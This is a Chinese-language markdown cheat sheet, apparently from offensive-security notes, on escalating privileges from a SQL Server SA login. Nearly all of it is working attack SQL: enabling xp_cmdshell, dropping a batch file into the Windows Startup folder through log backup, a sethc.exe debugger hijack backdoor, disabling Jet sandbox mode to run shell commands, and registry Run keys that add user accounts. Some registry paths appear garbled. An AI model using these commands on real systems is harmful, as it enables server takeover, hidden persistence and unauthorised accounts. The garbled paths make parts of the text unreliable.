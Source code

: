 **提权**
- **SA 提权**
    1. 判断扩展存储是否存在:
        ```
        select count(*) from master.dbo.sysobjects where xtype = 'x' AND name= 'xp_cmdshell'
        select count(*) from master.dbo.sysobjects where name='xp_regread'
        恢复:
        exec sp_dropextendedproc 'xp_cmdshell'
        exec sp_dropextendedproc xp_cmdshell,'xplog70.dll'
        EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;(SQL2005)
        ```

    2. 列目录:
        ```
        exec master..xp_cmdshell 'ver'
        (or) exec master..xp_dirtree 'c:\',1,1
        (or) drop table black
        create TABLE black(mulu varchar(7996) NULL,ID int NOT NULL IDENTITY(1,1))--
        insert into black exec master..xp_cmdshell 'dir c:\'
        select top 1 mulu from black where id=1
        xp_cmdshell 被删除时,可以用(4.a)开启沙盒模式,然后(4.b)方法提权
        ```

    3. 备份启动项:
        ```
        alter database [master] set RECOVERY FULL
        create table cmd (a image)
        backup log [master] to disk = 'c:\cmd1' with init
        insert into cmd (a) values (0x(batcode))
        backup log [master] to disk = 'C:\Documents and Settings\Administrator\「开始」菜单\程序\启动\start.bat'
        drop table cmd
        ```

    4. 映像劫持

        `xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\cmd.exe'`

    5. 沙盒模式提权:

        a:`exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet.0\Engines','SandBoxMode','REG_DWORD',0;` # 关闭沙盒模式

        b:`Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user mstlab mstlab /add")');` #or c:\windows\system32\ias\dnary.mdb string 类型用此.
        开启 OpenRowSet:`exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE;`

    6. xp_regwrite 操作注册表

        `exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows\currentversion un','black','REG_SZ','net user test test /add'`

        开启 xp_oacreate : exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

---